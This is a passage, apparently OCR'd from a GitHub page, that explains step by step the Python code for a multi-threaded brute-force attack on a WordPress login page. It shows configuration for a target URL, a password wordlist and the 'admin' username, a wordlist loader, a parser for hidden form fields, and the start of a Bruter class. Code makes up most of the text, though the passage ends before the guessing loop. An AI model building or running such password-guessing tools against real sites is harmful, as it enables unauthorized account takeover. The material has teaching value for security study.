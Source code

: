 ### **2️⃣ Configuration Variables**
```python
SUCCESS = 'Welcome to WordPress!'  # Text that confirms a successful login
TARGET = "http://test_test_test.com/wp-login.php"  # Target WordPress login page
WORDLIST = 'cain.txt'  # File containing passwords
ADMIN = "admin"  # Username for brute-force
```
- **`SUCCESS`** → If the login response contains this phrase, brute-force was successful  
- **`TARGET`** → URL of the **WordPress login page**  
- **`WORDLIST`** → List of **passwords to try**  
- **`ADMIN`** → Fixed username used in the attack  

---

### **3️⃣ Load Wordlist into a Queue**
```python
def get_words():
    with open(WORDLIST) as f:
        raw_words = f.read()

    words = Queue()
    for word in raw_words.split():
        words.put(word)
    return words
```
- Reads the password list (`cain.txt`)  
- Stores passwords in a **queue** for multi-threading  

---

### **4️⃣ Extract Hidden Form Fields**
```python
def get_params(content):
    params = dict()
    parser = etree.HTMLParser()
    tree = etree.parse(BytesIO(content), parser=parser)
    for elem in tree.findall('//input'):
        name = elem.get('name')
        if name is not None:
            params[name] = elem.get('value', None)
    return params
```
- **Downloads the login page**  
- **Finds all `<input>` fields**  
- **Extracts hidden form fields**  
- **Preserves default field values** (if any)  

---

### **5️⃣ Brute-Force Class**
```python
class Bruter:
    def __init__(self, username, url):
        self.username = username
        self.url = url
        self.found = False
        print(f'\nBrute Force Attack beginning on {url}.\n')
        print("Finished the setup where username = %s\n" % username)
```
- **Stores `username` and `url`**  
- **Tracks whether a password is found**  

---